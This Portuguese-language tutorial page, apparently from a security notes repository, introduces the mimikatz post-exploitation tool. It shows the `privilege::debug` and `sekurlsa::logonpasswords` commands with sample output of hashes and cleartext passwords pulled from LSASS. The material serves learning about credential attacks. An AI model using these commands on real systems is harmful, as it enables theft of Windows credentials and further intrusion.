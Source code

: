 <img width="30%" src="https://i.imgur.com/ULwPfn3.png"></img>

# mimikatz
O [mimikatz](https://github.com/gentilkiwi/mimikatz) é uma ferramenta que vai te auxiliar na sua post-exploitation. Ele tem alguns modules/commands pra te adiantar muito, e foi implementado até no meterpreter do metasploit. Vou dar um exemplo de uma utilidade do mimikatz a seguir.<br>

### about mimikatz
o mimikatz começou como um dll injector chamado `kdll`. Depois foi implementado um Pass-The-Hash e foi renomeado para `kdllpipe`. Mais implementações foram sendo feitas até se tornar o mimikatz que hoje é comumente usado.<br>

# password dump
Vamos começar agora a demonstração. Após conseguir `nt/auth`, você pode utilizar o module `sekurlsa` para extrair diversas informações do `lsass (local security authority subsystem service)`, um handle do windows para alocar passwords e tickets. Caso você não seja nt/auth, ao tentar extrair alguma coisa com esse module, você vai se deparar com o seguinte erro: `ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)`.<br><br>

O comando usado para fazer a extração é o `logonpasswords`. Ao utilizar esse comando, seu resultado deve ser algo como:<br>
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
Authentication Id : 0 ; x (00000000:000157e6)
Session           : Interactive from x
User Name         : x
Domain            : x-PC
SID               : x-x-x-x
        msv :
         [00000003] Primary
         * Username : x
         * Domain   : x-PC
         * LM       : xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
         * NTLM     : xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
         * SHA1     : xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
        tspkg :
         * Username : x
         * Domain   : x-PC
         * Password : mypassword
        wdigest :
         * Username : x
         * Domain   : x-PC
         * Password : mypassword
        kerberos :
         * Username : x
         * Domain   : x-PC
         * Password : mypassword
        ssp :
         * Username : x
         * Domain   : x-PC
         * Password : mypassword
        credman :
         * Username : x
         * Domain   : x-PC
         * Password : mypassword

```
---
<br>
[pwn](README.md)<br>
[home](../README.md)
